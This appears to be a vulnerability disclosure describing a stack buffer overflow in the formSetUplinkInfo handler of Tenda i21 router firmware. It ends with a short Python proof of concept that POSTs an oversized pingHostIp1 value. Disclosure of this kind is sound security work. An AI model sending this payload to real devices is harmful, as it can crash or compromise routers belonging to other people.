 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formSetUplinkInfo` function. The `ip1, ip2` variable receives the `pingHostIp1, pingHostIp2` parameter from a POST request. However, since the user can control the input of `pingHostIp1, pingHostIp2`, the statement `sprintf(auto_ping_ip, "%s;%s", ip1, ip2);` can cause a buffer overflow. The user-provided  `pingHostIp1, pingHostIp2` can exceed the capacity of the `auto_ping_ip` array, triggering this security vulnerability.

![image-20240419204909804](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419204909804.png)

## POC

```python
payload = b"a"*2000

data = {"upLinkEn": 1, "pingHostIp1": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
